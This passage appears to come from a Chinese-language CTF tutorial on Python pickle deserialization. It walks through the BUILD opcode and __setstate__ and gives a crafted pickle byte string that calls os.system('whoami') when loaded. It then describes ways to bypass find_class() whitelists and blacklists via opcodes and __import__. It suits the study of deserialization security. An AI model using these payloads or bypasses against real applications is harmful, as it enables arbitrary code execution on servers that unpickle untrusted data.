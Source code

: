 **`b`操作码**

执行函数

```python
    def load_build(self):
        stack = self.stack
        state = stack.pop() #{"animal":"dog"}
        inst = stack[-1] #(对象)
        setstate = getattr(inst, "__setstate__", None) 
        if setstate is not None: 
            #检查是否存在 __setstate__ 方法 一般是不存在的
            #如果存在__setstate__方法，就会调用setstate(state)
            ###############################################
            setstate(state) ###########会造成任意函数调用
            ############################################
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        if state:
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
    dispatch[BUILD[0]] = load_build
```

只有存在`__setstate__`方法，就会调用`setstate(state)`，所以要构造一个含有`__setstate__`的类

```python
import pickle
class animal:
    def __init__(self):
        self.animal="dog"
a=b'\x80\x03c__main__\nanimal\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
b=pickle.loads(a)

```

0x03 WAF绕过
==========

官方针对pickle的安全问题的建议是修改`find_class()`，引入白名单的方式来解决，很多CTF题都是针对该函数进行，所以搞清楚如何绕过该函数很重要。

1. 从opcode角度看，当出现`c`、`i`、`\x93`时，会调用，**所以只要在这三个opcode直接引入模块时没有违反规则即可**。
2. 从python代码来看，`find_class()`只会在解析opcode时调用一次，所以只要绕过opcode执行过程，`find_class()`就不会再调用，也就是说`find_class()`只需要过一次，通过之后再产生的函数在黑名单中也不会拦截，**所以可以通过`__import__`绕过一些黑名单。**
